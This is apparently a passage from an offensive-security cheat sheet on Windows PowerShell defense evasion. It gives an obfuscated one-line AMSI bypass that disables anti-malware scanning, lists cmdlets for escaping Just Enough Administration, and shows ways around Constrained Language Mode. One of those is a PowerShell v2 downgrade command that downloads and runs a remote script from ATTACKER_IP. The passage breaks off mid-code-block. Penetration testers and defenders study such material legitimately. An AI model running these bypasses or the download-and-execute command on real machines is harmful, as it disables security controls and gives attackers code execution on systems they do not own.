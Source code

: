 > The Anti-Malware Scan Interface (AMSI) is a Windows API (Application Programming Interface) that provides a unified interface for applications and services to integrate with any anti-malware product installed on a system. The API allows anti-malware solutions to scan files and scripts at runtime, and provides a means for applications to request a scan of specific content.

Find more AMSI bypass: [Windows - AMSI Bypass.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Just Enough Administration

> Just-Enough-Administration (JEA) is a feature in Microsoft Windows Server that allows administrators to delegate specific administrative tasks to non-administrative users. JEA provides a secure and controlled way to grant limited, just-enough access to systems, while ensuring that the user cannot perform unintended actions or access sensitive information.

Breaking out if JEA:
* List available cmdlets: `command`
* Look for non-default cmdlets:
    ```ps1
    Set-PSSessionConfiguration
    Start-Process
    New-Service
    Add-Computer
    ```


### Constrained Language Mode

Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`

* Bypass using an old Powershell. Powershell v2 doesn't support CLM.
    ```ps1
    powershell.exe -version 2
    powershell.exe -version 2 -ExecutionPolicy bypass
    powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
    ```

* Bypass when `__PSLockDownPolicy` is used. Just put "System32" somewhere in the path. 
    ```ps1
    # Enable CLM from the environment
    [Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4', 'Machine')
    Get-ChildItem -Path Env:

    # Create a check-mode.ps1 containing your "evil" powershell commands
    $mode = $ExecutionContext.SessionState.LanguageMode
    write-host $mode
